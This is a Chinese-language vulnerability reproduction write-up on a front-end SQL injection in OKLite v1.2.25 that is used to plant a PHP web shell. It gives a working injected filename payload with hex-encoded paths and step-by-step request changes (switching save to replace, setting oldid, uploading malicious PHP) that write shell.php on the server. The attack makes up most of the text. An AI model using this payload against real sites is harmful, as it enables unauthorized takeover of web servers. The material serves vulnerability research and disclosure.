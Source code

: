 OKLite v1.2.25 SQL注入导致getshell(前台)
========================================

一、漏洞简介
------------

这个漏洞在2017年在PHPOK当中就被畅师傅就被发现了。PHPOK系统被修复了，但是在OKLite当中还存在。

二、漏洞影响
------------

OKLite v1.2.25 版本

三、复现过程
------------

地址：<http://www.0-sec.org/index.php?id=message>

在线留言处上传一个图片并抓包，把文件名修改为：

    1','pf3qm0js3gb2s5f33r7lf14vl3','30'),('1',0x7265732f3230313931302f30342f,'shell.jpg','jpg',0x7265732f3230313931302f30352f7368656c6c2e706870,'1570161575','abc

![](./resource/OKLitev1.2.25SQL注入导致getshell(前台)/media/rId25.png)

上传成功之后会返回图片的id和保存的路径：

![](./resource/OKLitev1.2.25SQL注入导致getshell(前台)/media/rId26.png)

再次上传一个图片，把地址中的save改成replace，添加一个参数名为`oldid`，值为图片的id
+ 1。

图片的内容改为恶意的php代码：

![](./resource/OKLitev1.2.25SQL注入导致getshell(前台)/media/rId27.png)

上传完成之后可在`res\201910\05`目录下生成一个shell.php

![](./resource/OKLitev1.2.25SQL注入导致getshell(前台)/media/rId28.shtml)
